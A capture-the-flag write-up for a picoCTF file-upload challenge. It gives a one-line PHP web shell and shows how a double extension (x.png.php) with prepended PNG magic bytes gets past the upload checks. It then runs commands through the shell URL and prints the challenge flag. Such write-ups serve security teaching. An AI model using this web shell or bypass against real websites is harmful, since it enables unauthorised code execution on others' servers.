





---

This website offers us a file upload to upload an image, hence, the vulnerability is probably a file upload vulnerability.

With Burp Suite Proxy HTTP History tab open, try uploading a regular PNG image and capture the request:



Normally in a file upload vulnerability, the best thing to do is to try and upload a reverse shell.
- I will be using a PHP reverse shell as it is the most common one.

```php
<?php echo system($_GET['cmd']); ?>
```
> This PHP shell basically executes the query command called `cmd` when the file is called: `http://websiite/shell?cmd=ls`. Assuming the web shell is in the `shell` file, then the command `ls` will be executed and printed to us.

Now, we need to find a way to upload this shell, and then find another way to access it.
- This means, we need to locate where the images we upload are actually located on the server.

To do so, we can use a an enumeration tool to find common directories and files that might be present.
- By luck, I tried opening the `robots.txt` file, and it had the information we were looking for.



We see an important file called `instructions.txt`, and an `uploads` directory which probably holds the images we upload.

- Opening the `instructions.txt` file:



> It has the checks that are applied on a file as it is uploaded. These include checking that the string `.png` exists in the filename, and that it has the magic bytes of `PNG`.

These 2 validations can be easily bypassed by doing the following to our image:
1. Change the name such that it has `.png` in it, but also make sure that it has the `.php` extension such that the web shell code will execute.
2. Make sure that the `PNG` magic bytes exist in the beginning of the file.

Hence, this is how our request should look like to upload our malicious file:



Sending this request works, and our file is now present on the server.
- We can access it by going to the `/uploads/x.png.php` path on the website, along with passing a command through the `cmd` query parameter.

```url
http://atlas.picoctf.net:62471/uploads/x.png.php?cmd=id
```



> We see that we can now execute commands, and the results of that command is displayed.

After some looking around, the flag can be obtained using the following command:

```URL
http://atlas.picoctf.net:62471/uploads/x.png.php?cmd=cat+../HFQWKODGMIYTO.txt
```

FLAG:

```text
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}
```

---
